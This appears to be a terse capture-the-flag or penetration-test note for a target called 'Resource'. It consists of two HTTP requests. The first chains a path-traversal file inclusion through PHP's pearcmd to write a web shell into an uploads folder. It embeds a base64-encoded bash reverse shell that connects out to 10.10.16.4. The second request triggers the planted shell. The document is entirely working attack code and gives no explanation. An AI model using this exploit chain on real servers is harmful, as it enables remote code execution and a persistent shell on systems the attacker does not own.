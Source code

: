 # Resource


GET /index.php?page=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?shell_exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTYuNC8xNDUxNCAwPiYxJw=="));?>+/var/www/itrc/uploads/shell.php

GET /uploads/shell.php

